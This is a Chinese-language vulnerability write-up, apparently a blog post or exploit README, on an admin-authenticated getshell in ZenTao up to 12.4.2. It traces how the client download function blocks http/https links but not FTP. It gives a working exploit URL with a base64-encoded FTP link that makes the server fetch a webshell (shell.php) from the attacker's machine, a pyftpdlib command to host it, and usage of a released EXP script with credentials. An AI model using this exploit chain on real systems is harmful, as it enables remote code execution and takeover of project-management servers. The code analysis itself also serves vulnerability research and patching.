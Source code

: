 # 禅道<=12.4.2 后台getshell



## 漏洞利用

Exploit：

http://127.0.0.1/zentao/client-download-1-(base64 encode webshelldownload link)-1.html

http://127.0.0.1/zentao/data/client/1/(download link filename)


 **复现：**

![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image002.jpg)

使用**FTP****协议**下载文件，绕过**module/client/ext/model/xuanxuan.php:10** **downloadZipPackage** 的**HTTP****协议**过滤。


![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/clip_image004.jpg)

 

## 代码分析

首先该漏洞需要后台管理员权限，所以我们首先登陆至后台。通过下图我们可以看到登陆后的界面URL为：
`http://192.168.52.141/zentaopms/www/index.php?m=my&f=index`

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t012b1edfbb5968327e.png)](https://p2.ssl.qhimg.com/t012b1edfbb5968327e.png)

我们看到后台界面分别对m以及f参数进行传参，那么不难猜出大概就是调用my类下的index方法，我们看一下该段的代码。

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t0159e9407d7b4a59e9.png)](https://p1.ssl.qhimg.com/t0159e9407d7b4a59e9.png)

在/module/my/lang/zh-cn.php下可以看到存在指向index的方法，这验证了我们上面猜测是正确的，那么我们下面来看一下文件下载漏洞点的代码部分。

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01e389578003518177.png)](https://p2.ssl.qhimg.com/t01e389578003518177.png)

漏洞是发生在client类下的donwload函数中，我们定位函数至/module/client/control.php中找到该方法，本段代码大致意思就是会接收三个参数version、os、link，然后去调用**downloadZipPackage**方法进行文件下载操作，并对一些下载失败事件进行不同回显，比如downloadFail，saveClientError在上图的方法列表我们可以看到他们调用的方法的具体含义，这里就不再赘述，最后如果没有失败事件时间就会返回成功。在downloadZipPackage并不需要os方法，所以这在我们后期利用时也不需要传入该参数。

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01bc3554884a1ddd3a.png)](https://p1.ssl.qhimg.com/t01bc3554884a1ddd3a.png)

然后继续跟进downloadZipPackage方法中，注意重点来了，漏洞真正的产生原因就在该方法中。

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01d664441732fb42e4.png)](https://p2.ssl.qhimg.com/t01d664441732fb42e4.png)

我们可以看到这段代码首先对传入的link参数进行了base64解码操作，这里的link参数就是我们shell的远程地址，然后下面会通过一个正则表达式进行判断，link地址是否以 http:// 或者 https:// 开头，如果存在则return返回false并退出方法，否则调用方法**parent::downloadZipPackage**，这里其实忽略了FTP这一文件下载方法，也就是说我们可以通过FTP服务代替进行文件下载操作从而绕过正则的限制。

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01be4bcd3b62e34b7c.png)](https://p0.ssl.qhimg.com/t01be4bcd3b62e34b7c.png)

downloadZipPackage方法就没有什么问题了，就是一段文件下载函数，会通过传入的version值创建并命名在data下创建的文件夹并将下载的文件保存在其中。

 

## 漏洞利用

那么这其实就是很清晰了，通过文章开始介绍的m和f参数的调用，我们可以对client类以及download参数进行调用，并传入download参数必要的version以及link参数就可以完成漏洞的利用了。这里的link地址是base64加密后的ftp连接地址，,比如:

**ftp://192.168.52.1/shell.php**

大家可以直接使用python的pyftpdlib模块开启FTP服务比较方便，命令:

**python -m pyftpdlib -p 21 -d .**默认开启匿名用户，不需要输入用户名密码。

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t010ff8a21f7d431f36.png)](https://p0.ssl.qhimg.com/t010ff8a21f7d431f36.png)

构建exp如下:

```
http://ip/zentaopms/www/index.php?m=client&f=download&version=1&link=ZnRwOi8vMTkyLjE2OC41Mi4xL3NoZWxsLnBocA==
```

可以看到回显弹窗保存成功，然后再到靶机中查看发现下载成功，保存路径至

```
/zentaopms/www/data/client/1/shell.php
```

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01e196a8e5fd936c20.png)](https://p1.ssl.qhimg.com/t01e196a8e5fd936c20.png)

连接木马，成功利用！

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01f672108d970a681f.png)](https://p4.ssl.qhimg.com/t01f672108d970a681f.png)

 

## 漏洞利用EXP

所以本文最突出的一个部分来了，就是我们有EXP啊。通过两个夜晚的努力，终于完成了，其中也碰到了不少坑，但是好在都解决了。下面由我来介绍一下他的使用方法吧。

[![img](resource/%E7%A6%85%E9%81%93%3C=12.4.2%20%E5%90%8E%E5%8F%B0getshell/media/t01af2b24af5c3ddc4c.png)](https://p3.ssl.qhimg.com/t01af2b24af5c3ddc4c.png)

构建命令:`python "Zentao RCE EXP.py" -H http://192.168.52.141 -U admin -P Admin888 -f 192.168.52.1`

其中-H指定目标主机，-U指定后台用户名，-P指定密码，-f指定VMnet8网卡的IP，这样虚拟机才能正常访问到物理机的FTP服务，当然如果测试环境也在虚拟机中则可以修改源码自动获取IP即可，这里是以我的环境为准所以没有这么做，也因为我觉得麻烦一点来换取兼容性更好一点是不亏的，所以小伙伴可以自行修改使用，我想这也不难，源码中也标注了修改位置。目前已经上传至github，有兴趣的小伙伴可以自行下载测试。

**EXP github地址:**`https://github.com/wikiZ/Zentao-RCE`